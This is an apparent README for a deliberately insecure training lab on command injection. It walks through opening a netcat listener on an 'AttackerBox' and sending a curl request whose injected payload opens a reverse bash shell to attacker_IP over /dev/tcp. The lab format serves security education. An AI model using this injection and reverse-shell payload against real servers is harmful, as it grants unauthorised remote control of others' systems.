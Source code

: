 # 🔥 Vulnerable Labs: Shell Yeah - Let's Go in Reverse
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll build on your understanding of command injection, craft and execute a reverse shell payload.

### 🎯 Your Mission

1. Using CloudShell, SSH to the AttackerBox.
```bash 
ssh -i ~/lab_key.pem ubuntu@attacker_IP
```
2. Run a netcat listener: 
```bash
nc -lvp 5789
```
3. Open another CloudShell tab and run the command:
```bash
curl -X POST http://website_IP/score -d '""; bash -c "/bin/bash -i > /dev/tcp/attacker_IP/5789 0<&1 2>&1" #'
```

### 💥 Hints & Tips

Note: Don't forget to substitute:
- "website_ip" for the Public IP address of your WebServer EC2 instance
- "attacker_IP" for the Public IP address of your AttackerBox EC2 instance 
